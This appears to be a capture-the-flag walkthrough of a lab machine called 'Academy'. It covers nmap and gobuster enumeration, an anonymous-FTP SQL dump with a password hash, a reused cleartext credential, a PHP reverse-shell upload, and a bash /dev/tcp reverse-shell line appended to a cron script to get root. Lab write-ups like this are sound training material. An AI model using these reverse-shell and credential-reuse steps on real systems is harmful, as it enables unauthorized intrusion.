


# Description:
- NONE
# Information Gathering

## Enumeration

### nmap
Standard nmap scan of `192.168.111.11`: `nmap -T4 -p- -A $rhost`
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.111.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Ftp-anon login: Found note.exe
```sql
INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');
```
- Login Rum Ham: 10201321:student(MD5)
- Academy/sql admin: Grimmie (uses probably the same password in other services)

### gobuster
```shell
/academy              (Status: 301) [Size: 318] [--> http://192.168.111.11/academy/]
/phpmyadmin           (Status: 301) [Size: 321] [--> http://192.168.111.11/phpmyadmin/]
```


# Exploitation
Upload php-reverse-shell on the studentphoto-upload field and got Access
Found backup.sh which is also in crontab (runing every minute)


###Linpeas:


phpMyAdmin: grimmie:My_V3ryS3cur3_P4ss

-> SSH Access (same Password)

Modify backup.sh:
`echo "/bin/bash -i >& /dev/tcp/192.168.111.10/9002 0>&1" >> backup.sh`

Got Root-Shell
---

### References & Further Research
- [Another PrivEsc: Linux chfn (SuSE 9.3/10)?](https://www.exploit-db.com/exploits/1299)
- [unprivileged Linux process snooping](https://github.com/DominicBreuker/pspy)
